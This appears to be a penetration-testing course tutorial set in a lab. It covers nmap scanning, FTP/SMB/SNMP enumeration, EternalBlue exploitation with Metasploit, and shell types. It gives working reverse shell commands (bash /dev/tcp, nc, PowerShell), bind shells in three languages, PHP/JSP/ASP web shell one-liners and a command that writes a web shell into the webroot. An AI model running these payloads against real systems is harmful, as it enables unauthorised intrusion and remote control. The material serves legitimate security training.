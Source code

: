 # Service Scanning

Let us start with the most basic scan. Suppose that we want to perform a basic scan against a target residing at 10.129.42.253. To do this we should type nmap 10.129.42.253 and hit return. We see that the Nmap scan was completed very quickly. This is because if we don't specify any additional options, Nmap will only scan the 1,000 most common ports by default. The scan output reveals that ports 21, 22, 80, 139, and 445 are available.

```
nmap 10.129.42.253

Starting Nmap 7.80 ( https://nmap.org ) at 2021-02-25 16:07 EST
Nmap scan report for 10.129.42.253
Host is up (0.11s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 2.19 seconds
```

Under the PORT heading, it also tells us that these are TCP ports. By default, Nmap will conduct a TCP scan unless specifically requested to perform a UDP scan.
The STATE heading confirms that these ports are open. Sometimes we will see other ports listed that have a different state, such as filtered. This can happen if a firewall is only allowing access to the ports from specific addresses.
The SERVICE heading tells us the service's name is typically mapped to the specific port number. However, the default scan will not tell us what is listening on that port. Until we instruct Nmap to interact with the service and attempt to tease out identifying information, it could be another service altogether.

As we gain familiarity, we will notice that several ports are commonly associated with Windows or Linux. For example, port 3389 is the default port for Remote Desktop Services and is an excellent indication that the target is a Windows machine. In our current scenario, port 22 (SSH) being available indicates that the target is running Linux/Unix, but this service can also be configured on Windows. Let us run a more advanced Nmap scan and gather more information about the target device.

We can use the -sC parameter to specify that Nmap scripts should be used to try and obtain more detailed information. The -sV parameter instructs Nmap to perform a version scan. In this scan, Nmap will fingerprint services on the target system and identify the service protocol, application name, and version. The version scan is underpinned by a comprehensive database of over 1,000 service signatures. Finally, -p- tells Nmap that we want to scan all 65,535 TCP ports.

`nmap -sV -sC -p- 10.129.42.253`

This returns a lot more information. We see that it took a lot longer to scan 65,535 ports than 1,000 ports. The -sC and -sV options also increase the duration of a scan, as instead of performing a simple TCP handshake, they perform a lot more checks. We notice that this time there is a VERSION heading, which reports the service version and the operating system if this is possible to identify.

So far, we know that the operating system is Ubuntu Linux. Application versions can also help reveal the target OS version. Take OpenSSH, for example. We see the reported version is OpenSSH 8.2p1 Ubuntu 4ubuntu0.1. From inspection of other Ubuntu SSH package changelogs, we see the release version takes the format 1:7.3p1-1ubuntu0.1. Updating our version to fit this format, we get 1:8.2p1-4ubuntu0.1. A quick search for this version online reveals that it is included in Ubuntu Linux Focal Fossa 20.04.

However, it is worth noting that this cross-referencing technique is not entirely reliable, as it is possible to install more recent application packages on an older OS version. The script scan -sC flag causes Nmap to report the server headers http-server-header page and the page title http-title for any web page hosted on the webserver. The web page title PHP 7.4.3 - phpinfo() indicates that this is a PHPInfo file, which is often manually created to confirm that PHP has been successfully installed. The title (and PHPInfo page) also reveals the PHP version, which is worth noting if it is vulnerable.

Specifying -sC will run many useful default scripts against a target, but there are cases when running a specific script is required. For example, in an assessment scope, we may be asked to audit a large Citrix installation. We could use this Nmap script to audit for the severe Citrix NetScaler vulnerability (CVE-2019–19781), while Nmap also has other scripts to audit a Citrix installation.

```
locate scripts/citrix

/usr/share/nmap/scripts/citrix-brute-xml.nse
/usr/share/nmap/scripts/citrix-enum-apps-xml.nse
/usr/share/nmap/scripts/citrix-enum-apps.nse
/usr/share/nmap/scripts/citrix-enum-servers-xml.nse
/usr/share/nmap/scripts/citrix-enum-servers.nse
```

The syntax for running an Nmap script is nmap --script <script name> -p<port> <host>.

Nmap scripts are a great way to enhance our scans' functionality, and inspection of the available options will pay dividends. Check out the Network Enumeration with Nmap module for a more detailed study of the Nmap tool.

As previously discussed, banner grabbing is a useful technique to fingerprint a service quickly. Often a service will look to identify itself by displaying a banner once a connection is initiated. Nmap will attempt to grab the banners if the syntax nmap -sV --script=banner <target> is specified. We can also attempt this manually using Netcat. Let us take another example, using the nc version of Netcat:

```
nc -nv 10.129.42.253 21

(UNKNOWN) [10.129.42.253] 21 (ftp) open
220 (vsFTPd 3.0.3)
```

This reveals that the version of vsFTPd on the server is 3.0.3. We can also automate this process using Nmap's powerful scripting engine: nmap -sV --script=banner -p21 10.10.10.0/24.

It is worth gaining familiarity with FTP, as it is a standard protocol, and this service can often contain interesting data. A Nmap scan of the default port for FTP (21) reveals the vsftpd 3.0.3 installation that we identified previously. Further, it also reports that anonymous authentication is enabled and that a pub directory is available.


```
nmap -sC -sV -p21 10.129.42.253

Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-20 00:54 GMT
Nmap scan report for 10.129.42.253
Host is up (0.081s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Dec 19 23:50 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
Service Info: OS: Unix
```

Let us connect to the service using the ftp command-line utility.

```
ftp -p 10.129.42.253
Connected to 10.129.42.253.
220 (vsFTPd 3.0.3)
Name (10.129.42.253:user): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
227 Entering Passive Mode (10,129,42,253,158,60).
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Feb 25 19:25 pub
226 Directory send OK.

ftp> cd pub
250 Directory successfully changed.

ftp> ls
227 Entering Passive Mode (10,129,42,253,182,129).
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            18 Feb 25 19:25 login.txt
226 Directory send OK.

ftp> get login.txt
local: login.txt remote: login.txt
227 Entering Passive Mode (10,129,42,253,181,53).
150 Opening BINARY mode data connection for login.txt (18 bytes).
226 Transfer complete.
18 bytes received in 0.00 secs (165.8314 kB/s)

ftp> exit
221 Goodbye.
```

In the above shell, we see that FTP supports common commands such as cd and ls and allows us to download files using the get command. Inspection of the downloaded login.txt reveals credentials that we could use to further our access to the system.

```
cat login.txt 

admin:ftp@dmin123
```

SMB (Server Message Block) is a prevalent protocol on Windows machines that provides many vectors for vertical and lateral movement. Sensitive data, including credentials, can be in network file shares, and some SMB versions may be vulnerable to RCE exploits such as EternalBlue. It is crucial to enumerate this sizeable potential attack surface carefully. Nmap has many scripts for enumerating SMB, such as smb-os-discovery.nse, which will interact with the SMB service to extract the reported operating system version.


```
nmap --script smb-os-discovery.nse -p445 10.10.10.40

Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-27 00:59 GMT
Nmap scan report for doctors.htb (10.10.10.40)
Host is up (0.022s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: CEO-PC
|   NetBIOS computer name: CEO-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-12-27T00:59:46+00:00

Nmap done: 1 IP address (1 host up) scanned in 2.71 seconds

```

In this case, the host runs a legacy Windows 7 OS, and we could conduct further enumeration to confirm if it is vulnerable to EternalBlue. The Metasploit Framework has several modules for EternalBlue that can be used to validate the vulnerability and exploit it, as we will see in a coming section. We can run a scan against our target for this module section to gather information from the SMB service. We can ascertain that the host runs a Linux kernel, Samba version 4.6.2, and the hostname is GS-SVCSCAN.

```
nmap -A -p445 10.129.42.253

Starting Nmap 7.80 ( https://nmap.org ) at 2021-02-25 16:29 EST
Nmap scan report for 10.129.42.253
Host is up (0.11s latency).

PORT    STATE SERVICE     VERSION
445/tcp open  netbios-ssn Samba smbd 4.6.2
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.32 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

Host script results:
|_nbstat: NetBIOS name: GS-SVCSCAN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-02-25T21:30:06
|_  start_date: N/A

TRACEROUTE (using port 445/tcp)
HOP RTT       ADDRESS
1   111.62 ms 10.10.14.1
2   111.89 ms 10.129.42.253

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.72 seconds
```

SMB allows users and administrators to share folders and make them accessible remotely by other users. Often these shares have files in them that contain sensitive information such as passwords. A tool that can enumerate and interact with SMB shares is smbclient. The -L flag specifies that we want to retrieve a list of available shares on the remote host, while -N suppresses the password prompt.

```
smbclient -N -L \\\\10.129.42.253
```

This reveals the non-default share users. Let us attempt to connect as the guest user.

```
smbclient \\\\10.129.42.253\\users

Enter WORKGROUP\users's password: 
Try "help" to get a list of possible commands.

smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*

smb: \> exit
```

The ls command resulted in an access denied message, indicating that guest access is not permitted. Let us try again using credentials for the user bob (bob:Welcome1).

```
smbclient -U bob \\\\10.129.42.253\\users

Enter WORKGROUP\bob's password: 
Try "help" to get a list of possible commands.

smb: \> ls
  .                                   D        0  Thu Feb 25 16:42:23 2021
  ..                                  D        0  Thu Feb 25 15:05:31 2021
  bob                                 D        0  Thu Feb 25 16:42:23 2021

		4062912 blocks of size 1024. 1332480 blocks available
		
smb: \> cd bob

smb: \bob\> ls
  .                                   D        0  Thu Feb 25 16:42:23 2021
  ..                                  D        0  Thu Feb 25 16:42:23 2021
  passwords.txt                       N      156  Thu Feb 25 16:42:23 2021

		4062912 blocks of size 1024. 1332480 blocks available
		
smb: \bob\> get passwords.txt 
getting file \bob\passwords.txt of size 156 as passwords.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
```

SNMP Community strings provide information and statistics about a router or device, helping us gain access to it. The manufacturer default community strings of public and private are often unchanged. In SNMP versions 1 and 2c, access is controlled using a plaintext community string, and if we know the name, we can gain access to it. Encryption and authentication were only added in SNMP version 3. Much information can be gained from SNMP. Examination of process parameters might reveal credentials passed on the command line, which might be possible to reuse for other externally accessible services given the prevalence of password reuse in enterprise environments. Routing information, services bound to additional interfaces, and the version of installed software can also be revealed.


```
snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0

iso.3.6.1.2.1.1.5.0 = STRING: "gs-svcscan"
```

```
snmpwalk -v 2c -c private  10.129.42.253 

Timeout: No Response from 10.129.42.253
```

A tool such as onesixtyone can be used to brute force the community string names using a dictionary file of common community strings such as the dict.txt file included in the GitHub repo for the tool.

```
onesixtyone -c dict.txt 10.129.42.254

Scanning 1 hosts, 51 communities
10.129.42.254 [public] Linux gs-svcscan 5.4.0-66-generic #74-Ubuntu SMP Wed Jan 27 22:54:38 UTC 2021 x86_64
```

# Public Exploits

Once we identify the services running on ports identified from our Nmap scan, the first step is to look if any of the applications/services have any public exploits. Public exploits can be found for web applications and other applications running on open ports, like SSH or ftp.
Finding Public Exploits

Many tools can help us search for public exploits for the various applications and services we may encounter during the enumeration phase. One way is to Google for the application name with exploit to see if we get any results:

A well-known tool for this purpose is searchsploit, which we can use to search for public vulnerabilities/exploits for any application. We can install it with the following command:

`sudo apt install exploitdb -y`

Then, we can use searchsploit to search for a specific application by its name, as follows:

```
searchsploit openssh 7.2

----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                               |  Path
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                                                     | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                                               | linux/remote/45210.py
OpenSSH 7.2 - Denial of Service                                                                                              | linux/dos/40888.py
OpenSSH 7.2p1 - (Authenticated) xauth Command Injection                                                                      | multiple/remote/39569.py
OpenSSH 7.2p2 - Username Enumeration                                                                                         | linux/remote/40136.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets Privilege Escalation                         | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading                                                                     | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                                                                         | linux/remote/45939.py
OpenSSHd 7.2p2 - Username Enumeration                                
```

The Metasploit Framework (MSF) is an excellent tool for pentesters. It contains many built-in exploits for many public vulnerabilities and provides an easy way to use these exploits against vulnerable targets. MSF has many other features, like:

    Running reconnaissance scripts to enumerate remote hosts and compromised targets

    Verification scripts to test the existence of a vulnerability without actually compromising the target

    Meterpreter, which is a great tool to connect to shells and run commands on the compromised targets

    Many post-exploitation and pivoting tools

Let us take a basic example of searching for an exploit for an application we are attacking and how to exploit it. To run Metasploit, we can use the msfconsole command:


```
msfconsole
search exploit eternalblue
use exploit/windows/smb/ms17_010_psexec

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                                                             yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                               no        The password for the specified username
   SMBUser                                                                               no        The username to authenticate as


set RHOSTS 10.10.10.40

set LHOST tun0
```

Once we have Metasploit running, we can search for our target application with the search exploit command. For example, we can search for the SMB vulnerability we identified previously:

We found one exploit for this service. We can use it by copying the full name of it and using USE to use it:

Before we can run the exploit, we need to configure its options. To view the options available to configure, we can use the show options command:

Any option with Required set to yes needs to be set for the exploit to work. In this case, we only have two options to set: RHOSTS, which means the IP of our target (this can be one IP, multiple IPs, or a file containing a list of IPs). The second option, LHOST, represents the IP of our attack host (this can be a single IP, or the name of a network interface. In the example below, LHOST is being set to the IP associated with our tun0 interface.) We can set them with the set command:

Once we have both options set, we can start the exploitation. However, before we run the script, we can run a check to ensure the server is vulnerable:

```
msf6 exploit(windows/smb/ms17_010_psexec) > check
```

As we can see, the server is indeed vulnerable. Note that not every exploit in the Metasploit Framework supports the check function. Finally, we can use the run or exploit command to run the exploit:

```
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159) at 2020-12-27 01:13:28 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 39640 created.
Channel 0 created.
Windows 7 Professional 7601 Service Pack 1
(C) Copyright 1985-2009 Microsoft Corp.

C:\WINDOWS\system32>whoami
NT AUTHORITY\SYSTEM
```

As we can see, we have been able to gain admin access to the box and used the shell command to drop us into an interactive shell. These are basic examples of using Metasploit to exploit a vulnerability on a remote server. There are many retired boxes on the Hack The Box platform that are great for practicing Metasploit. Some of these include, but not limited to:

```

    Granny/Grandpa
    Jerry
    Blue
    Lame
    Optimum
    Legacy
    Devel
```

-----------------------
The question in this section is:
Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file. (note: the web server may take a few seconds to start) 

A quick google search of the plug in finds this page:
https://www.rapid7.com/db/modules/auxiliary/scanner/http/wp_simple_backup_file_read/


# Types of Shells

Once we compromise a system and exploit a vulnerability to execute commands on the compromised hosts remotely, we usually need a method of communicating with the system not to have to keep exploiting the same vulnerability to execute each command. To enumerate the system or take further control over it or within its network, we need a reliable connection that gives us direct access to the system's shell, i.e., Bash or PowerShell, so we can thoroughly investigate the remote system for our next move.

One way to connect to a compromised system is through network protocols, like SSH for Linux or WinRM for Windows, which would allow us a remote login to the compromised system. However, unless we obtain a working set of login credentials, we would not be able to utilize these methods without executing commands on the remote system first, to gain access to these services in the first place.

The other method of accessing a compromised host for control and remote code execution is through shells.
As previously discussed, there are three main types of shells: Reverse Shell, Bind Shell, and Web Shell. Each of these shells has a different method of communication with us for accepting and executing our commands.

Type of Shell 	Method of Communication
Reverse Shell 	Connects back to our system and gives us control through a reverse connection.
Bind Shell 	Waits for us to connect to it and gives us control once we do.
Web Shell 	Communicates through a web server, accepts our commands through HTTP parameters, executes them, and prints back the output.

Let us dive more deeply into each of the above shells and walk through examples of each.

A Reverse Shell is the most common type of shell, as it is the quickest and easiest method to obtain control over a compromised host. Once we identify a vulnerability on the remote host that allows remote code execution, we can start a netcat listener on our machine that listens on a specific port, say port 1234. With this listener in place, we can execute a reverse shell command that connects the remote systems shell, i.e., Bash or PowerShell to our netcat listener, which gives us a reverse connection over the remote system.


`nc -lvnp 1234`

The flags we are using are the following:


-l 	Listen mode, to wait for a connection to connect to us.
-v 	Verbose mode, so that we know when we receive a connection.
-n 	Disable DNS resolution and only connect from/to IPs, to speed up the connection.
-p 1234 	Port number netcat is listening on, and the reverse connection should be sent to.

Now that we have a netcat listener waiting for a connection, we can execute the reverse shell command that connects to us.

However, first, we need to find our system's IP to send a reverse connection back to us. We can find our IP with the following command:

```
ip a

...SNIP...

3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 500
    link/none
    inet 10.10.10.10/23 scope global tun0
...SNIP...
```

In our example, the IP we are interested in is under tun0, which is the same HTB network we connected to through our VPN.

Note: We are connecting to the IP in 'tun0' because we can only connect to HackTheBox boxes through the VPN connection, as they do not have internet connection, and therefore cannot connect to us over the internet using `eth0`. In a real pentest, you may be directly connected to the same network, or performing an external penetration test, so you may connect through the `eth0` adapter or similar.


The command we execute depends on what operating system the compromised host runs on, i.e., Linux or Windows, and what applications and commands we can access. The Payload All The Things page has a comprehensive list of reverse shell commands we can use that cover a wide range of options depending on our compromised host.

Certain reverse shell commands are more reliable than others and can usually be attempted to get a reverse connection. The below commands are reliable commands we can use to get a reverse connection, for bash on Linux compromised hosts and Powershell on Windows compromised hosts:

``` bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

``` Powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

We can utilize the exploit we have over the remote host to execute one of the above commands, i.e., through a Python exploit or a Metasploit module, to get a reverse connection. Once we do, we should receive a connection in our netcat listener:


```
nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, after we received a connection on our netcat listener, we were able to type our command and directly get its output back, right in our machine.

A Reverse Shell is handy when we want to get a quick, reliable connection to our compromised host. However, a Reverse Shell can be very fragile. Once the reverse shell command is stopped, or if we lose our connection for any reason, we would have to use the initial exploit to execute the reverse shell command again to regain our access.


Another type of shell is a Bind Shell. Unlike a Reverse Shell that connects to us, we will have to connect to it on the targets' listening port.

Once we execute a Bind Shell Command, it will start listening on a port on the remote host and bind that host's shell, i.e., Bash or PowerShell, to that port. We have to connect to that port with netcat, and we will get control through a shell on that system.


Once again, we can utilize Payload All The Things to find a proper command to start our bind shell.

Note: we will start a listening connection on port '1234' on the remote host, with IP '0.0.0.0' so that we can connect to it from anywhere.

The following are reliable commands we can use to start a bind shell:

``` bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

``` python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

``` powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

Once we execute the bind shell command, we should have a shell waiting for us on the specified port. We can now connect to it.

We can use netcat to connect to that port and get a connection to the shell:

```
nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, we are directly dropped into a bash session and can interact with the target system directly. Unlike a Reverse Shell, if we drop our connection to a bind shell for any reason, we can connect back to it and get another connection immediately. However, if the bind shell command is stopped for any reason, or if the remote host is rebooted, we would still lose our access to the remote host and will have to exploit it again to gain access.

Once we connect to a shell through Netcat, we will notice that we can only type commands or backspace, but we cannot move the text cursor left or right to edit our commands, nor can we go up and down to access the command history. To be able to do that, we will need to upgrade our TTY. This can be achieved by mapping our terminal TTY with the remote TTY.

There are multiple methods to do this. For our purposes, we will use the python/stty method. In our netcat shell, we will use the following command to use python to upgrade the type of our shell to a full TTY:

`python -c 'import pty; pty.spawn("/bin/bash")'`

After we run this command, we will hit ctrl+z to background our shell and get back on our local terminal, and input the following stty command:

```
www-data@remotehost$ ^Z

stty raw -echo
fg

[Enter]
[Enter]
www-data@remotehost$
```

Once we hit fg, it will bring back our netcat shell to the foreground. At this point, the terminal will show a blank line. We can hit enter again to get back to our shell or input reset and hit enter to bring it back. At this point, we would have a fully working TTY shell with command history and everything else.

We may notice that our shell does not cover the entire terminal. To fix this, we need to figure out a few variables. We can open another terminal window on our system, maximize the windows or use any size we want, and then input the following commands to get our variables:

```
echo $TERM

xterm-256color

stty size

67 318

```
The first command showed us the TERM variable, and the second shows us the values for rows and columns, respectively. Now that we have our variables, we can go back to our netcat shell and use the following command to correct them:

```
www-data@remotehost$ export TERM=xterm-256color

www-data@remotehost$ stty rows 67 columns 318
```

The final type of shell we have is a Web Shell. A Web Shell is typically a web script, i.e., PHP or ASPX, that accepts our command through HTTP request parameters such as GET or POST request parameters, executes our command, and prints its output back on the web page.
Writing a Web Shell

First of all, we need to write our web shell that would take our command through a GET request, execute it, and print its output back. A web shell script is typically a one-liner that is very short and can be memorized easily. The following are some common short web shell scripts for common web languages:

``` php
<?php system($_REQUEST["cmd"]); ?>
```

``` jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

``` asp
<% eval request("cmd") %>
```

Once we have our web shell, we need to place our web shell script into the remote host's web directory (webroot) to execute the script through the web browser. This can be through a vulnerability in an upload feature, which would allow us to write one of our shells to a file, i.e. shell.php and upload it, and then access our uploaded file to execute commands.

However, if we only have remote command execution through an exploit, we can write our shell directly to the webroot to access it over the web. So, the first step is to identify where the webroot is. The following are the default webroots for common web servers:

Web Server 	Default Webroot
Apache 	/var/www/html/
Nginx 	/usr/local/nginx/html/
IIS 	c:\inetpub\wwwroot\
XAMPP 	C:\xampp\htdocs\

We can check these directories to see which webroot is in use and then use echo to write out our web shell. For example, if we are attacking a Linux host running Apache, we can write a PHP shell with the following command:

``` bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

Once we write our web shell, we can either access it through a browser or by using cURL. We can visit the shell.php page on the compromised website, and use ?cmd=id to execute the id command:

```
curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, we can keep changing the command to get its output. A great benefit of a web shell is that it would bypass any firewall restriction in place, as it will not open a new connection on a port but run on the web port on 80 or 443, or whatever port the web application is using. Another great benefit is that if the compromised host is rebooted, the web shell would still be in place, and we can access it and get command execution without exploiting the remote host again.

On the other hand, a web shell is not as interactive as reverse and bind shells are since we have to keep requesting a different URL to execute our commands. Still, in extreme cases, it is possible to code a Python script to automate this process and give us a semi-interactive web shell right within our terminal.

# Privilege Escalation


Our initial access to a remote server is usually in the context of a low-privileged user, which would not give us complete access over the box. To gain full access, we will need to find an internal/local vulnerability that would escalate our privileges to the root user on Linux or the administrator/SYSTEM user on Windows. Let us walk through some common methods of escalating our privileges.
PrivEsc Checklists

Once we gain initial access to a box, we want to thoroughly enumerate the box to find any potential vulnerabilities we can exploit to achieve a higher privilege level. We can find many checklists and cheat sheets online that have a collection of checks we can run and the commands to run these checks. One excellent resource is HackTricks, which has an excellent checklist for both Linux and Windows local privilege escalation. Another excellent repository is PayloadsAllTheThings, which also has checklists for both Linux and Windows. We must start experimenting with various commands and techniques and get familiar with them to understand multiple weaknesses that can lead to escalating our privileges.

https://book.hacktricks.xyz/

https://github.com/swisskyrepo/PayloadsAllTheThings

Many of the above commands may be automatically run with a script to go through the report and look for any weaknesses. We can run many scripts to automatically enumerate the server by running common commands that return any interesting findings. Some of the common Linux enumeration scripts include LinEnum and linuxprivchecker, and for Windows include Seatbelt and JAWS.

Another useful tool we may use for server enumeration is the Privilege Escalation Awesome Scripts SUITE (PEASS), as it is well maintained to remain up to date and includes scripts for enumerating both Linux and Windows.

Note: These scripts will run many commands known for identifying vulnerabilities and create a lot of "noise" that may trigger anti-virus software or security monitoring software that looks for these types of events. This may prevent the scripts from running or even trigger an alarm that the system has been compromised. In some instances, we may want to do a manual enumeration instead of running scripts.

Let us take an example of running the Linux script from PEASS called LinPEAS:

```
/linpeas.sh
...SNIP...

Linux Privesc Checklist: https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist
 LEYEND:
  RED/YELLOW: 99% a PE vector
  RED: You must take a look at it
  LightCyan: Users with console
  Blue: Users without console & mounted devs
  Green: Common things (users, groups, SUID/SGID, mounts, .sh scripts, cronjobs)
  LightMangenta: Your username


====================================( Basic information )=====================================
OS: Linux version 3.9.0-73-generic
User & Groups: uid=33(www-data) gid=33(www-data) groups=33(www-data)
...SNIP...
```

As we can see, once the script runs, it starts collecting information and displaying it in an excellent report. Let us discuss some of the vulnerabilities that we should look for in the output from these scripts.
Kernel Exploits

Whenever we encounter a server running an old operating system, we should start by looking for potential kernel vulnerabilities that may exist. Suppose the server is not being maintained with the latest updates and patches. In that case, it is likely vulnerable to specific kernel exploits found on unpatched versions of Linux and Windows.

For example, the above script showed us the Linux version to be 3.9.0-73-generic. If we Google exploits for this version or use searchsploit, we would find a CVE-2016-5195, otherwise known as DirtyCow. We can search for and download the DirtyCow exploit and run it on the server to gain root access.

The same concept also applies to Windows, as there are many vulnerabilities in unpatched/older versions of Windows, with various vulnerabilities that can be used for privilege escalation. We should keep in mind that kernel exploits can cause system instability, and we should take great care before running them on production systems. It is best to try them in a lab environment and only run them on production systems with explicit approval and coordination with our client.

Another thing we should look for is installed software. For example, we can use the dpkg -l command on Linux or look at C:\Program Files in Windows to see what software is installed on the system. We should look for public exploits for any installed software, especially if any older versions are in use, containing unpatched vulnerabilities.
User Privileges

